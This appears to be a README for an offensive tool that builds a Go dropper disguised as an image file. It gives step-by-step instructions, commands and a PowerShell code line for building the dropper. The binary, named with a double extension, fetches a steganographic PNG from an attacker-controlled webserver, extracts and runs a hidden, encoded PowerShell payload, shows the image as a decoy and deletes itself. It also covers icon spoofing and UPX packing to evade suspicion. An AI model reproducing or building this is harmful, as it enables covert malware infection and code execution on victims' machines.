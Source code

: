 # Invoke-PSImage Delivery

## What does this do?

**The binary will download the image from the url save it as `mia.png` and then run the powershell payload from within the Image and then show the image which it just downloaded. After this it will delete itself**



1. Search for a Image
2. get https://github.com/peewpw/Invoke-PSImage
3. get `payload.ps1` and `bin.go` from this repo
4. get rcedit (https://github.com/electron/rcedit)
5. get upx
6. get go


## "Building"

1. Change Payload in `payload.ps1`
*Default payload.ps1*
```
function InvokePayload
{
	powershell.exe -w hidden -noni -nop -enc <encoded string>
};
```

2. Build image

```
PS> Import-Module .\Invoke-PSImage.ps1
PS> Invoke-PSImage -Script .\payload.ps1 -Image your_image.jpg -Out evil_image.png
```
3. Copy the output (oneliner)
4. Change line 31 in bin.go
```
var hi string = `$path = -join($pwd.path, "\mia.png"); sal a New-Object;Add-Type -AssemblyName "System.Drawing";$g= a System.Drawing.Bitmap($path);.....7647])); .\mia.png; del .\mia.png.exe; InvokePayload`
```

Be sure to replace the `sal` part until the `;` with your oneliner.
Then replace `System.Drawing.Bitmap(...)` with `System.Drawing.Bitmap($path)`

You should also change the filename (mine is mia.png(.exe))



6. Change your webserver url in line 29 (upload your evil_image.png from step 2. to this host)

7. Change the name `mia.png` to your desired name.
8. Convert your original image to a ico. (i named it icon.ico)
9. run `go build -ldflags="-s -w" bin.go` to build the go binary
10. `.\rcedit.exe .\bin.exe --set-icon "icon.ico"`
11. `.\upx.exe --ultra-brute -o mia.png.exe bin.exe` - Make sure to add the .exe after the filename which you chose the steps before

12. RUN

### What should happen:
It should download the image from the URL which you specified.
Then it should extract your payload.ps1 from this image and run the payload (from step 1).
After this it opens the image which it downloaded (disguise) and deletes itself :)


### why Mia.png???
Cause i used a picture of [Mia Malkova](https://en.wikipedia.org/wiki/Mia_Malkova) for Testing.


## Tools used
[Invoke-PSImage](https://github.com/peewpw/Invoke-PSImage) - Huge Props to this dude

[rcedit](https://github.com/electron/rcedit)

